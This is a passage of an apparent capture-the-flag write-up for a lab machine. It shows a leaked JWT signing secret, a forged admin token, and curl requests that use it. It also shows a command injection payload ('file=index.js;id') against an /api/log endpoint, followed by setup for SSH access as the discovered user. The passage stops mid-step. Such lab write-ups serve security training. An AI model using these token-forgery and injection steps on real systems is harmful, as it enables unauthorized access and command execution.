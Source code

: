 Bingo we found the secret. Let's move to the exploitation phase

![token-secret](images/token-secret.png)

```
TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
```

## Exploitation

Since we have the secret now, we can forge a token with the "theadmin" name.
I copied the token to [jwt.io](https://jwt.io) and used the token obtained in the last phase. Then I changed the name claim to "theadmin".

I used the new generated token to access the `/api/priv/` to check if my privileges.

```bash
curl -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDAyYmM3MmYyZDA0MjliOWJkZGEiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RlckBnbWFpbC5jb20iLCJpYXQiOjE2NDgyOTYwMDJ9.tNBzeujobI1bXtimhaR_-hBcaBVVKf1Y6-G1CK9AVeM' http://10.10.11.120/api/priv

```

And it worked. Got the admin role.

Let's exploit the command injection vulnerability that I talked about. I used curl to access the `/api/log` and provided index.js as file then inserted semi-colon to end the git command and added id at the end. This curl command summarizes the request.

```bash
curl -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDAyYmM3MmYyZDA0MjliOWJkZGEiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RlckBnbWFpbC5jb20iLCJpYXQiOjE2NDgyOTYwMDJ9.tNBzeujobI1bXtimhaR_-hBcaBVVKf1Y6-G1CK9AVeM' -G --url-encoded "file=index.js;id" http://10.10.11.120/api/log
```

The part of this response that we needed is:

```
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
```

We are sure now that the username is `dasith`.
In the reconnaissance phase, we knew that there is an SSH server. Let's use it login as dasith.
First of all, I generated new SSH key using the following command:

```bash
ssh-keygen -t rsa -b 4096 -f secret-box
```

Then, I exported the public key in an environment variable. using the export command
